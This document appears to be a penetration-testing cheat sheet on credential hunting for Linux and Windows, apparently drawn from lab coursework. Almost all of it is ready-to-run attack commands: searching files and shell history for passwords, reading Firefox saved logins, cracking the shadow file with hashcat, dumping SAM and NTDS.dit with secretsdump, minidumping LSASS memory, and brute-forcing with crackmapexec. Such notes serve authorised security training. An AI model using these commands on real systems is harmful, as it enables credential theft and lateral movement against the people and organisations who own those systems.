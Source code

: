 # Credential hunting

### Linux

<pre class="language-bash"><code class="lang-bash"># Search for config files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Credentials in config files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
<strong>
</strong><strong># Config files
</strong>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null

<strong># Database
</strong>for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

# Notes
find /home/* -type f -name "*.txt" -o ! -name "*.*"

# Scrips
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
</code></pre>

#### More to look for

```bash
# Cronbjos
cat /etc/crontab
ls -la /etc/cron.*/

# History
history
tail -n5 /home/*/.bash*

# Logs
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done

# Firefox
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### Cracking shadow file

```bash
# Unshadow files
unshadow /tmp/passwd /tmp/shadow > /tmp/

# Crack with hashcat
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Windows

```bash
# Runas commands as other user
runas /savecred /user:zencorp\user "whoami"

# findstr
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

# Powershell find history file location and open
(Get-PSReadLineOption).HistorySavePath
gc (Get-PSReadLineOption).HistorySavePath

# Powershell history
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

#### Automated tools

```bash
# Crackmapexec
crackmapexec smb 172.16.10.10 --users
crackmapexec smb 172.16.10.10 -u mczen -p password --users
crackmapexe smb 192.168.1.1 -u username -p password --sam
crackmapexe smb 192.168.1.1 -u username -p password --lsa
crackmapexe smb 192.168.1.1 -u username -p password --ntds-history

# Crackmapexec brute force
sudo crackmapexec smb 172.16.10.10 -u users.txt -p password | grep +

# Enum4linux
enum4linux -U 172.16.10.10 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]

# Using meterpreter
hashdump

# Lazagne
./lazagne.exe -all

# Rubeus
./rubeus.exe -h
```

SAM

```bash
# Copy SAM file
reg.exe save hklm\sam C:\sam.save
# Copy SYSTEM file
reg.exe save hklm\system C:\system.save

# Copy files to host run secretsdump
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save LOCAL
```

#### NTDS.DIT

```bash
# Create a new file pwn.dsh
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:

# Make a copy of drive
diskshadow /s pwn.dsh

# Copy NTDS.DIT file
robocopy /b z:\windows\ntds . ntds.dit

# The dump on host
python secretsdump.py -ntds ntds.dit -system system -hashes lmhash:nthash LOCAL
```

#### LSASS

```powershell
# DUMP LSASS memory
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

# pypykatz
pypykatz lsa minidump /home/kali/lsass.dmp 
```

#### Decrypt powershell credentials

```bash
# Store path
$credential = Import-Clixml -Path 'C:\code\passwd.xml'
# Get username
$credential.GetNetworkCredential().username
# Get password
$credential.GetNetworkCredential().password
```

### Search strings

```bash
# Example 1
findstr /si password *.xml *.ini *.txt *.config
# Example 2
findstr /spin "password" *.*
# Use powershell
select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

# File extensions
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
# File extenions
where /R C:\ *.config
# File extenions powershell
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore

```

### Files of interest

```
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```
